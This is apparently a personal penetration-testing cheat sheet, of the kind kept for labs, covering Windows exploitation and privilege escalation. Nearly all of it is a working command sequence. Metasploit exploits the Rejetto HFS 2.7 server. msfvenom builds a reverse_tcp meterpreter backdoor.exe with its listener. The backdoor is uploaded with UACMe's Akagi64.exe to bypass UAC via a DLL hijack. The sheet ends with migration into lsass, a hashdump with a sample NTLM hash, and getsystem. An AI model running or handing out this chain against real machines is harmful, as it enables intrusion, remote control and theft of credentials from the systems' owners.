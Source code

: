 **Powershell** commands:

- `net user` - users in the system
- `net localgroup administrators` - members of the local administrators group

**Metasploit**: (Only exploitation not privilege escalation)

- `search rejetto` (HTTP file server exploitation) ***HFS 2.7 exploitation***
    - `set rhosts`
- `meterpreter > sysinfo`
- `meterpreter > pgrep explorer`
- `meterpreter > migrate <pid_explorer>` (for migrating x32 to x64 **meterpreter**)
- `meterpreter > getuid` (server username)

- `msfvenom -p windows/meterpreter/reverse_tcp LHOST=<ip> LPORT=1234 -f exe > backdoor.exe`
- `use multi/handler`
    - `set payload windows/meterpreter/reverse_tcp`
        - `set LHOST, LPORT`
            - `run`
- `meterpreter > cd C:\Temp`
- `meterpreter > upload backdoor.exe`
- `meterpreter > upload Akagi64.exe` (from UACMe in GitHub)
- `meterpreter > shell`
- `meterpreter > .\Akagi64.exe 23 C:\Temp\backdoor.exe` (it runs the payload with method 23) (`C:\Temp\backdoor.exe` it **must** be full directory)
    - Method 23:
        
        Author: Leo Davidson derivative
        
        ```
        Type: Dll Hijack
        Method: IFileOperation
        Target(s): **\\system32\\pkgmgr.exe**
        Component(s): DismCore.dll
        Implementation: ucmDismMethod
        Works from: Windows 7 (7600)
        Fixed in: unfixed 🙈
            How: -
        Code status: added in v2.5.1
        
        ```
        
- `meterpreter > getprivs` - this time we have more privileges
- `meterpreter > ps` - processes
- `meterpreter > migrate <number_of_lsass>` - we migrate to a process that has administrator privileges (NT AUTHORITY privileges)
    - Meterpreter with administrator privileges
    - `meterpreter > hashdump`
    - aad3b435b51404eeaad3b435b51404ee:4d6583ed4cef81c2f2ac3c88fc5f3da6 - green is hash

OR

- `meterpreter > getsystem`

***OVERALL***: if we find our username (`getuid`) in local administrators group (`net localgroup administrators`), then we can ***bypass*** UAC for privesc.
